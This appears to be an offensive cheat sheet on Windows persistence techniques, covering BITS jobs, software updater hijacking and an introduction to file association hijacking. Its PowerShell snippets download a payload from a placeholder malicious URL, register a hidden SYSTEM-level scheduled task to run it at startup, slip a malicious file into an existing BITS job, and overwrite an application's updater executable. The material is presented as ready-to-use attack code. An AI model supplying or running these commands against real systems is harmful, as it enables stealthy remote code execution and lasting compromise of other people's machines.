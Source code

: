 # BITS Jobs (Background Intelligent Transfer Service)

#### Create a Persistent BITS Job
- This script creates a BITS job that downloads a malicious script at system startup and executes it using Task Scheduler. BITS jobs are often used to transfer files in the background, making it a subtle way to download malicious payloads persistently.

```powershell
# Create BITS job to download malicious script
$job = Start-BitsTransfer -Source "<malicious_url>" -Destination "$env:TEMP\malicious_script.ps1" -Description "Persistence Job"

# Register scheduled task to run the downloaded script at system startup
$trigger = New-ScheduledTaskTrigger -AtStartup
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -WindowStyle Hidden -File $env:TEMP\malicious_script.ps1"
Register-ScheduledTask -TaskName "PersistentBITS" -Trigger $trigger -Action $action -User "SYSTEM" -RunLevel Highest
```

#### Modify Existing BITS Job
- Modify an existing BITS job to include the download of a malicious script and ensure it is transferred.

```powershell
# Identify the existing BITS job by description
$job = Get-BitsTransfer -AllUsers | Where-Object {$_.Description -eq "<job_description>"}

# Add the malicious file to the existing BITS job
Add-BitsFile -BitsJob $job -RemoteName "<malicious_url>" -LocalName "$env:TEMP\malicious_script.ps1"

# Complete the transfer to ensure the malicious file is downloaded
Complete-BitsTransfer -BitsJob $job
```

# Software Updaters

#### Hijack Software Updater
- Modifies software updater to include a malicious script:
	```powershell
	$updaterPath = "C:\Program Files\TargetApp\Updater.exe"
	Copy-Item "<path_to_malicious_script>" -Destination "$updaterPath"
	```

# File Association Hijacking (Persistence)

File Association Hijacking can be used for persistence by modifying the way specific file types are opened, redirecting them to malicious executables or scripts. This method targets how the operating system handles file types, making it run the attacker's code when a particular file type is opened. This approach is persistent as the registry settings are applied at user login and persist across reboots, as long as the registry entries are not modified.

